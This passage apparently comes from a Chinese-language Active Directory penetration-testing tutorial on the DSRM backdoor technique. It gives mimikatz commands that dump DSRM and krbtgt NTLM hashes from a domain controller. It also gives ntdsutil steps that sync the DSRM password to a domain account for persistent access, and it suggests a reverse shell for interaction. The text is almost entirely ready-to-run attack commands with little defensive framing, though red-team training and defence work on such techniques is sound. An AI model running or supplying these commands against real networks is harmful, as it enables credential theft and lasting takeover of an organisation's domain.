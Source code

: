 ### 4.2.1. 获取dsrm及krbtgt的NTLM hash

这里使用主机上操作的，不过也可以在CS中操作。

```
privilege::debug
lsadump::lsa /patch /name:webadmin  ##这个域用户可以随便是那个域用户。
token::elevate
lsadump::sam
```

![image-20230815130546478](assets/image-20230815130546478.png)

### 4.2.2. dsrm&krbtgt&NTLM hash同步

这里还是需要到主机上操作，由于需要shell交互的太多了，不过条件允许的可以，使用反弹shell进行交互。

```
#进入ntdsutil
ntdsutil
#修改DSRM的密码
set DSRM password
#使DSRM的密码和指定域用户的密码同步 eg:sync from domain account [域用户名]
sync from domain account webadmin
#退出
按两次q即可退出(第1次：退出DSRM密码设置模式;第2次退出ntdsutil)
```
